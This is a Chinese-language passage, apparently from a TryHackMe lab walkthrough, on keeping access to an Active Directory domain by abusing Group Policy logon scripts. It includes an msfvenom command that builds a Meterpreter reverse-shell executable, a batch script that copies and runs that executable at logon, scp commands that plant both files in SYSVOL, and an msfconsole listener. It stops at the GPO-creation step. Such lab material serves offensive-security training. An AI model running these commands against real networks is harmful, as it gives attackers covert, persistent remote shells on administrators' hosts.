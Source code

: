 :::

## Persistence through GPOs  - 通过组策略对象（GPOs）实现持久化

最后一个持久化技术是通过组策略对象（GPOs）实现的持久化。到这一步，你应该对 GPOs 有所了解，基于我们讨论过的所有不同枚举、攻击和利用技术。然而，GPOs 也非常适用于部署持久性。

AD 中的组策略管理提供了一个集中机制，用于管理所有加入域的机器的本地策略配置。这包括诸如限制组成员资格、防火墙和防病毒软件配置，以及启动时应执行哪些脚本等配置。虽然这是一个出色的管理工具，但攻击者可以将其作为目标，通过它在整个网络中部署持久性。更糟糕的是，攻击者通常可以将 GPO 隐藏得几乎不可能移除。

### 域范围的持久化

以下是一些常见的 GPO 持久化技术：

- 限制组成员资格 - 这可能会允许我们对域中的所有主机进行管理访问
- 登录脚本部署 - 这将确保每当用户在域中的主机上进行身份验证时，我们都会收到一个 shell 回调。

有许多不同的钩子可以部署。你可以尝试使用 GPOs 来了解其他钩子。由于我们在 Exploiting AD 房间中已经使用了第一个钩子，即限制组成员资格，现在让我们专注于第二个钩子。虽然拥有对所有主机的访问权限是不错的，但如果能确保在管理员主动使用它们时获得访问权限会更好。为此，我们将创建一个链接到管理员 OU 的 GPO，这将使我们能够在其中一个管理员验证到主机时每次都获得一个 shell。

### 准备工作

在我们创建 GPO 之前，首先需要创建我们的 shell、监听器和实际的批处理文件，用于执行我们的 shell。让我们从生成一个基本的可执行 shell 开始：

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
```

确保在二进制文件名中添加你的用户名，以避免覆盖其他用户的 shell。Windows 允许我们通过登录 GPO 执行批处理或 PowerShell 脚本。批处理脚本通常比 PowerShell 脚本更稳定，所以让我们创建一个将我们的可执行文件复制到主机并在用户进行身份验证时执行它的批处理脚本。在 AttackBox 上创建名为 `<username>_script.bat` 的以下脚本：

```shell
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe
```

你会看到脚本使用 `&&` 将三个命令连接在一起。脚本将把二进制文件从 SYSVOL 目录复制到本地机器，然后等待 20 秒，最后执行该二进制文件。

我们可以使用 SCP 和管理员凭据将这两个脚本复制到 SYSVOL 目录：

```shell title="Terminal"
$thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

最后，让我们启动 MSF 监听器：

```shell title="Terminal"
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"
```

准备工作完成后，我们终于可以创建执行此脚本的 GPO。你需要远程桌面登录到 THMWRK1，并使用以管理员身份运行的 runas 窗口进行下一步操作。

### GPO 创建
